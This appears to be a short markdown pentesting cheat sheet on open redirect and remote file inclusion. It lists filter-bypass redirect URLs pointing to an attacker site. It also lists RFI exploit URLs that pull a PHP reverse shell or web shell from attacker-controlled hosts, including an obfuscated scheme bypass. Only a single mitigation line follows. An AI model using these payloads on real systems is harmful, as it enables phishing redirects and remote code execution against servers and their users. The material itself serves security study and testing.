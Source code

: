 # Open Redirect

## Concept
- https://example.com/login/?nextPage=https://google.com => Allowed
- https://example.com/login/?nextPage=https://evilsite.com => Not allowed

## Payload
- https://example.com/login/?nextPage=https://evilsite.com/?google.com
- https://example.com/login/?redirect=https://www.evilsite.google.com
- https://example.com/login/?nextPage=https:///www.google.com@evilsite.com

## Remote File Inclusion
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
  - ```index.php?page=http://attackerIP/webshell.php``` 
  - ```index.php?page=htthttpp://attackerIP/webshell.php```
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

